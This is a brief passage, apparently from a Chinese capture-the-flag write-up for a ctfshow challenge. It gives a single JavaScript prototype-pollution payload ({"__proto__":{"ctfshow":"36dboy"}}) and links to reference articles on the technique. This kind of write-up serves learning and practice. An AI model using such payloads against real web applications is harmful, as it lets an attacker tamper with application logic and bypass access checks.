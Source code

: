 传入 payload

```bash
{"__proto__":{"ctfshow":"36dboy"}}
```

### 参考文章

[https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)  
[https://xz.aliyun.com/t/12383](https://xz.aliyun.com/t/12383)  
[https://forum.butian.net/share/1631](https://forum.butian.net/share/1631)
